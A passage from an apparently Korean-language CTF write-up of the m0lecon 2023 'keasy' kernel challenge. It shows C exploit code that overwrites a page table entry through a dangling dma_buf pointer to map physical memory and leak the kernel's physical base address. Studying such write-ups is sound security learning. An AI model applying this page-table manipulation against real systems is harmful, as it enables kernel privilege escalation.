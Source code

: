 <center>
    <img src="/assets/images/posts_img/writeups/m0lecon-2023-keasy/munmmap_mmap_after_dup_mem.png" alt="munmmap_mmap_after_dup_mem.png">
</center>
{% include gallery caption="`dup()` 호출 직후 메모리 모습. `dma_buf`(이전에는 `evil`)이 PTE를 가리키고 있는 모습을 확인 가능하다." %}

이제 PTE에 우리가 원하는 물리 주소를 쓴다. 이때 물리 주소 `0x9c000`에 커널 물리 주소의 base와 연관된 값이 적혀 있고, 
이 물리 주소가 항상 고정된다는 것을 고려해야 한다. 이를 이용하면 다음과 같이 커널의 물리 주소 base를 알아낼 수 있다. 
또한 `dma_buf`가 가리키는 PTE의 영향을 받는 가상주소는 위에서 했던 것과 같은 방법으로 쉽게 알아낼 수 있다.

```c
// 커널의 물리 베이스 주소를 구함
void *affected_addr = NULL;
// 0x9c000 주소에는 커널의 물리 주소 base가 적혀 있고
// 이 물리 주소는 항상 고정임
*(size_t*)dma_buf = 0x800000000009c067;

// dma_buf를 통해 수정한 PTE의 영향을 받는 주소를 알아내고
// 이 주소에서 값을 읽어 커널의 물리 주소를 알아냄
for (int i = 0; i < COUNT_PAGES; i++) {
    if (pages[i] == evil) continue;
    // 위의 PTE 수정을 통해 값이 바뀐 주소에는 우리가 쓴 값 ('A'..'G')가 아니라
    // 이보다 훨씬 큰 값이 쓰여 있을 것이기 때문에
    // 이를 통해 영향받는 page를 알아낼 수 있게 됨
    if (*(size_t*)pages[i] > 0xffff) {
        affected_addr = pages[i];
        printf("[+] Found victim page table: %p\n", affected_addr);
        break;
    }
}

// 0xfff -> 하위 12비트(flags)
size_t phys_base = ((*(size_t*)affected_addr) & ~0xfff) - 0x1c04000;
printf("[+] Physical kernel base address: 0x%016lx\n", phys_base);
```

<center>

[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.